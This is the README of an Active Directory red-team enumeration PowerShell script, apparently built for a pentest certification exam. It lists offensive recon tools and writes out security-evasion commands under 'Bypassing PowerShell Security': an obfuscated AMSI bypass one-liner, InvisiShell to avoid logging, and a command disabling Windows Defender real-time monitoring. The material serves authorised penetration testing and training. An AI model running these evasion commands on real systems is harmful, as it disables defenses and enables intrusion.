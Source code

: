 # ADRedTeamEnumScript

This AD Red Team Enumeration Script is used to query a lot of aspects of your target Forest. The script will save all output from each enumeration task into a folder separating out the output files into appropriate folders for analyze later. This script saved me a lot of time on the enumeration portion for the [Pentester Academy CRTE](https://www.pentesteracademy.com/redteamlab) exam. Will be extremely useful for any traditional AD pentesting engagement. The script contains more information within it to help you enumerate discovered resources further, so ensure you read the commented out portions! 

This script is also designed to run other popular scripts and modules intended to get the most information out of your target AD Domain. You should look into their project to understand the full capabilities of the tools besides the small task performed within this script.

* [Microsoft AD Module (Powershell)](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps)
* [Invishell](https://github.com/OmerYa/InvisiShell)
* [ADACLScan](https://github.com/canix1/ADACLScanner)
* [Find-PSServiceAccounts](https://github.com/PyroTek3/PowerShell-AD-Recon)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
* [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
* [Rubeus](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)

## Usage

Not necessary to be an admin to run the script, but of course easier to get around most security features, heres a few tips that will help prevent the script from being blocked:

### Bypassing PowerShell Security

**To avoid verbose PowerShell logging - use [invishell](https://github.com/OmerYa/InvisiShell) (RunWithRegistryNonAdmin)**
```C:\PATH\TO\SCRIPTS\InviShell\RunWithRegistryNonAdmin.bat```

**AntiMalware Scan Interface (AMSI) may detect some tools when you load them. Uses the following AMSI bypass:**
```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )```

**Stop Windows Defender (need to be admin)**
```Set-MpPreference -DisableRealTimeMonitoring $true```
                             
After which you can run the script to enumerate your target. Now we can run the script on the vitim system that in joined to your target AD domain.

1. Download the repo and rename folder as 'scripts' or whatever you choose, but you'll need to modify the ADRedTeamEnumScripts.ps1, ComputersUsersGroups.ps1, DomainInfoTrusts.ps1, DCEnum.ps1 and GPOInfo.ps1 scripts in order for everything to work correctly. This repo includes the modules and scripts you need already inside the `bin` folder.

Want to do it manually:

1. Download all the scripts/tools mention above.

2. Store them in a folder called `bin`, inside another folder called `scripts`. 

3. Add the enumeration scripts inside the folder `scripts`. As shown below:

![ADredTeamEnumScript2](https://user-images.githubusercontent.com/20993128/129828201-8302ade2-9926-4c7b-ab9f-6433b997bd09.png)

4. Run the first full script:

```.\ADRedTeamEnumScripts.ps1```

![ADredTeamEnumScript](https://user-images.githubusercontent.com/20993128/129827187-3b424d44-436d-44ad-95ed-aa2cfe0ea8c2.png)

## Author
- [@n3t1nv4d3](https://twitter.com/n3t1nv4d3) author and researcher (https://github.com/n3t1nv4d3).
- Sources for other scripts used are linked to their names up above, thanks to your work I was able to create my personalize enum script. 
